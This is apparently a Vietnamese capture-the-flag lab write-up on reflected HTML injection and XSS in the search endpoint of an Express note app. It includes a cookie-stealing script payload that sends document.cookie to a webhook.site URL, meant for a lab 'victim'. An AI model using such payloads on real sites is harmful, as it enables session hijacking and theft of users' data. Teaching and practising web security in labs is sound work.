


# HTML INJECTION & XSS LEVEL 1

## __Sử dụng như người dùng:__
Giao diện ban đầu:  


Mình sẽ `note` lại ở phần `Note here` và tìm kiếm ở `Search`, bên cạnh đó chương trình còn hiển thị `List note` trong 1 array  


Tiếp đến `Search` thì sẽ hiển thị kết quả tìm kiếm (thật ra cũng chả tìm kiếm gì mà chỉ hiện ra thông báo)   
  
với tham số tìm kiếm là `q` trong cú `GET`

## __2. Xem đằng sau chương trình:__
File `index.js`:
```javascript
var express = require('express');
var router = express.Router();

router.get('/', function (req, res, next) {
    res.render('index');
});

// Note search feature
router.get('/search', function (req, res, next) {
    html = 'Your search - <b>' + sanitized_q + '</b> - did not match any notes.<br><br>'
    res.send(html);
});

module.exports = router;
```
- Khi vào URL có `endpoint` là `/` thì `respond` sẽ trả về file `index` &rarr; `views/index.ejs` (UI của chương trình)
- Khi vào URL có `endpoint` là `/search` thì `respond` trả về về biến `html` với biến này có chứa `req.query.q` để lấy tham số `q` trong cú `request GET`

File `note.js`:
```js
const { application } = require('express');
var express = require('express');
var router = express.Router();

//Retrieve notes
router.get('/note', function (req, res, next) {
    // respone tra ve json la cac note cua session trong request
    res.json(req.session.notes);
});

//Add note
router.post('/note', function (req, res, next) {
    req.session.notes.push(req.body.note);
    res.send("OK");
});

module.exports = router;
```
- Gửi `get method` đến endpoint `/note` để xem `List node` thì `respone` trả về json là cac note của session trong `request`
- Gửi `post method` đến endpoint `/note` để thêm note vào `danh sách note` có trong `session` đang sử dụng cú `request` đến và `respone` trả về "OK".

## __3. Lên ý tưởng và Khai thác:__
### a. <ins>Ý tưởng</ins>:
Vậy liệu có thể chèn đoạn mã `html` được không nhỉ? Nếu được thì mình sẽ chèn ở đâu?

### b. <ins>Khai thác</ins>:
Ở đây sẽ có 2 chỗ `Untrusted Data` là `thêm note` và `tìm note`
- Với `thêm note` thì `res` trả về là dạng `json` mình chẳng thể chạy mã `html`.
- Với `tìm note` thì `res` trả về là 1 đoạn `html` cộng với `req.query.q` mà mình kiểm soát được &rarr; __Khai thác ở đây__

Lúc đầu mình chỉ thêm 1 đoạn code `html` nhỏ như là `<h1>Dinh</h1>` thì kết quả chữ `Dinh` đã chuyển thành dạng `h1`  
  
&rarr; HTML Injection thành công  

Tiếp đến mình sẽ XSS trên đây, mình dùng `<script>alert(origin)</script>` và kết quả cũng đã chạy được `script`  
  
&rarr; XSS thành công

Mục đích cuối cùng của XSS để làm gì nhỉ? Theo mình quan sát được thì mỗi người dùng sẽ có 1 `cookie` khác nhau nhằm để lưu `list note` của chính họ và mình tận dụng xss để "ăn cắp" `cookie` của những người khác và đọc lén `list note` của họ. Mình sẽ thử lấy `cookie` của chính mình.  
Với `console.log(document.cookie)` trên console của trình duyệt  
  
Vậy mình có thể lấy `cookie` và bây giờ làm sao mình có thể chuyển `cookie` đi tới 1 nơi nào đó. Mình dựng 1 server để có thể nhận cookie từ nạn nhân.

__Payload:__
```js
<script>fetch("https://webhook.site/ff20d877-c21f-4d1e-88e9-beb2ccfa2693?cookie="+document.cookie)</script>
```
  
&rarr; Vậy mình đã lấy được `cookie` của chình mình vào server rồi. Bây giờ mình đi gửi cho người khác thôi (ở đây là bé mèo)

Victim link: https://victim.cyberjutsu-lab.tech/  

>CBJS{}